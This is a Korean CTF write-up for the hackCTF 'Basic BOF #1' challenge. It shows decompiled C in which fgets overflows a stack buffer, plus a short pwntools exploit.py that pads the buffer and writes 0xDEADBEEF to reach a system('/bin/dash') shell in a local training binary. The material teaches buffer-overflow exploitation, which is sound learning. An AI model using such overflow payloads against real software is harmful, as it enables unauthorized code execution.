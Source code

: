 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
---
```

hackCTF pwnable 첫번째 문제

## ida
***

  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;

코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.   
우리가 직접 수정할 수 있는 건 s이다.   
payload를 v5까지 덮을 수 있도록 만들자.   

## exploit.py
***
```
  #!/usr/bin/python
  from pwn import *
  
  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.
p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
